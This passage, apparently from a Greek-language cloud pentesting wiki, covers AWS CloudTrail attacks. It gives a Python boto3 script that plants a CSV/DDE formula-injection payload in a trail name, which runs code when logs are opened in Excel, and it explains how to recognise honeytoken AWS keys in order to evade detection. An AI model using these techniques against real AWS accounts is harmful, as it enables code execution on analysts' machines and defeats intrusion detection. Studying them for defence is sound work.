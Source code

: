 
Είναι δυνατόν να εκτελέσετε μια CVS injection μέσα στο CloudTrail που θα εκτελέσει αυθαίρετο κώδικα αν τα logs εξάγονται σε CSV και ανοίγονται με το Excel.\
Ο παρακάτω κώδικας θα δημιουργήσει μια καταχώρηση log με ένα κακό Trail name που περιέχει το payload:
```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
Name=payload,
S3BucketName="random"
)
print(response)
```
Για περισσότερες πληροφορίες σχετικά με τις επιθέσεις CSV, ελέγξτε τη σελίδα:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/formula-csv-doc-latex-ghostscript-injection.html
{{#endref}}

Για περισσότερες πληροφορίες σχετικά με αυτή τη συγκεκριμένη τεχνική, ελέγξτε [https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/](https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/)

## **Παράκαμψη Ανίχνευσης**

### HoneyTokens **παράκαμψη**

Τα Honeytokens δημιουργούνται για να **ανιχνεύσουν την εξαγωγή ευαίσθητων πληροφοριών**. Στην περίπτωση του AWS, είναι **κλειδιά AWS των οποίων η χρήση παρακολουθείται**, αν κάτι προκαλέσει μια ενέργεια με αυτό το κλειδί, τότε κάποιος πρέπει να έχει κλέψει αυτό το κλειδί.

Ωστόσο, τα Honeytokens όπως αυτά που δημιουργούνται από [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren) χρησιμοποιούν είτε αναγνωρίσιμα ονόματα λογαριασμού είτε το ίδιο ID λογαριασμού AWS για όλους τους πελάτες τους. Επομένως, αν μπορείτε να αποκτήσετε το όνομα λογαριασμού και/ή το ID λογαριασμού χωρίς να κάνετε το Cloudtrail να δημιουργήσει οποιοδήποτε log, **θα μπορούσατε να ξέρετε αν το κλειδί είναι honeytoken ή όχι**.

[**Pacu**](https://github.com/RhinoSecurityLabs/pacu/blob/79cd7d58f7bff5693c6ae73b30a8455df6136cca/pacu/modules/iam__detect_honeytokens/main.py#L57) έχει κάποιους κανόνες για να ανιχνεύσει αν ένα κλειδί ανήκει σε [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren)**:**

- Αν **`canarytokens.org`** εμφανίζεται στο όνομα ρόλου ή το ID λογαριασμού **`534261010715`** εμφανίζεται στο μήνυμα σφάλματος.
- Δοκιμάζοντας τα πιο πρόσφατα, χρησιμοποιούν το λογαριασμό **`717712589309`** και εξακολουθεί να έχει τη συμβολοσειρά **`canarytokens.com`** στο όνομα.
- Αν **`SpaceCrab`** εμφανίζεται στο όνομα ρόλου στο μήνυμα σφάλματος
- **SpaceSiren** χρησιμοποιεί **uuids** για να δημιουργήσει ονόματα χρηστών: `[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}`
- Αν το **όνομα φαίνεται τυχαία παραγόμενο**, υπάρχουν υψηλές πιθανότητες ότι είναι ένα HoneyToken.
